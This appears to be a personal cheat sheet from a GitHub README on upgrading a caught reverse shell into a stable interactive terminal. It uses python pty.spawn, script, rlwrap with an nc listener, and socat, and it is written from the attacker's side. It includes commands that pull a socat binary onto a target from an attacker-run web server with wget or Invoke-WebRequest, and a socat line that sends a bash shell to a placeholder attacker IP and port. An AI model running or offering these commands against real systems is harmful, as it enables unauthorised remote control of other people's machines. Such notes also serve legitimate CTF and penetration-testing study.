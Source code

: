 # shell_upgrades

## this is what you came here for

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 37 cols 172
```
> follow this with `CTRL+Z` then   `stty raw -echo;fg` `ENTER ENTER`


## Technique 0: script

kind of like a poor version of python/rlwrap
stty does NOT behave nicely so it can cause display issues

> once your shell has landed; ONLY WORKS IF `script` is present on the target unix system
```
script /dev/null -c bash

explanation
    script      ; binary we run
    /dev/null   ; the log file location
    -c bash     ; the command we will be logging
```

my preference is to have a "fragile shell" but with rlwrap
the display issues script brings are NOT worth it
display issues cause too much lost information

my 'lost information' experience may be box/system specific to a single instance

> alternate 'script' upgrade
```sh
# catch the reverse shell
script -q bash
ctrl + Z 
stty raw -echo; fg 
export TERM=xterm
bash
# 2nd bash may not be needed
```


## Technique 1: python

    python -c 'import pty;pty.spawn("/bin/bash")' 
    export TERM=xterm -- this will give us access to term commands such as clear. 
    Ctrl + Z. (background the shell on attacker machine)
    stty raw -echo; fg 
    [LOCAL] stty -a  ; take note of row col
    [REV_SHELL] stty rows LOCAL_ROW columns LOCAL_COLS
    
Last 2 steps does two things: 
	first, it turns off our own terminal echo 
	(which gives us access to tab autocompletes, the arrow keys, and Ctrl + C). 
	It then foregrounds the shell, thus completing the process. 


## Technique 2: rlwrap

Useful for Windows Shell stabilization (Notoriously difficult)
Gives access to history, tab complete, arrow keys 
NO ACCESS TO CTRL+C BY DEFAULT

```sh
rlwrap nc -lvnp <port>
Ctrl+Z; stty raw -echo; fg  (gives access to ctrl+c)
```

## Technique 3: socat

only useful VS linux.
Syntax for Sending/Receiving is Unique to socat
serve a socat static compiled binary (no dependencies)

```cmd
Attacker: sudo python3 -m http.server 80    
Linux Target: wget <LOCAL-IP>/socat -O /tmp/socat
Windows Target: Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

Note the windows command is an example of serving; 
socat will not work for our purposes on windows

Listener: socat TCP-L:\<port\> FILE:`tty`,raw,echo=0
Speaker: socat TCP:\<attacker-ip\>:\<attacker-port\> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

-d -d  added to command will increase verbosity (good for learning)

Real world uses socat whenever possible; its possible to encrypt shell traffic
Replace above TCP with OPENSSL.
A bit involved, but worth learning NEXT.


## Change Terminal TTY Size

necessary for using progs which overwrite the screen (nano, vi, etc)
Terminal does this automatically with a regular shell;
must be manually done with a Reverse/Bind shell

-    Attacker: stty -a       (Take note of rows/cols information)
-    Target: stty rows    (info from attackbox)
-    Target: stty cols    (info from attackbox)



